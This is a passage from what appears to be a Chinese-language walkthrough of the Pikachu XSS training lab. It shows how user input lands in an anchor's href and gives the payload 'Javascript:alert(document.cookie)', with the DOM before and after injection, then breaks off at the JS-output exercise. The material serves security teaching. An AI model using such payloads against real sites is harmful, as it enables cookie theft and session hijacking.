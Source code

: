 ![pikachu28](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu28.png)

点击标签弹出cookie

## xss之href输出

![pikachu29](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu29.png)

要求输入url，随意输入127.0.0.1后dom如下

```html
<div id="xssr_main">
    <p class="xssr_title">请输入一个你常用的网站url地址,我就知道你是什么人</p>
    <form method="get">
         <input class="xssr_in" type="text" name="message">
         <input class="xssr_submit" type="submit" name="submit" value="submit">
    </form>
    <a href="127.0.0.1"> 阁下自己输入的url还请自己点一下吧</a>
</div>
```

内容插入了a标签的href属性中，该处也可以执行js代码，构造恶意payload如下

```
Javascript:alert(document.cookie)
```

提交后，核心dom变化如下

```html
<div id="xssr_main">
    <p class="xssr_title">请输入一个你常用的网站url地址,我就知道你是什么人</p>
    <form method="get">
         <input class="xssr_in" type="text" name="message">
         <input class="xssr_submit" type="submit" name="submit" value="submit">
    </form>
    <a href="Javascript:alert(document.cookie)"> 阁下自己输入的url还请自己点一下吧</a>
</div>
```

点击标签，弹出cookie

![pikachu30](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu30.png)

## xss之js输出

原始页面js核心部分如下

```html
<script>
    $ms='';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }
    }
</script>
```
